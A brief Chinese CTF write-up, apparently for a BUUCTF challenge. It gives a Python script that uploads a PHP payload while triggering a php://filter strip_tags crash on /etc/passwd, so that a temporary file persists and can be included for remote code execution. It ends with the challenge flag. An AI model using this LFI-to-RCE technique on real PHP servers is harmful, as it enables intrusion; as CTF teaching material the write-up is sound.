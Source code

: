 贴一篇：[>>LFIroRCE总结](https://bbs.zkaq.cn/t/3639.html)

[>>文件包含&奇技淫巧](https://zhuanlan.zhihu.com/p/62958418)

这里就不累述了，直接上脚本：

```
import requests
from io import BytesIO

payload = "<?php phpinfo()?>"
file_data = {
    'file': BytesIO(payload.encode())
}
url = "http://35869f0e-43e6-47db-a026-b77fdfed3fea.node3.buuoj.cn/flflflflag.php?"\
      +"file=php://filter/string.strip_tags/resource=/etc/passwd"
r = requests.post(url=url, files=file_data, allow_redirects=False)
```

然后访问 `dir.php` 可以得到临时文件的名称，包含之即可RCE

flag就在phpinfo页面

flag{2ac28208-c35f-426b-bca5-4f50a77e1203}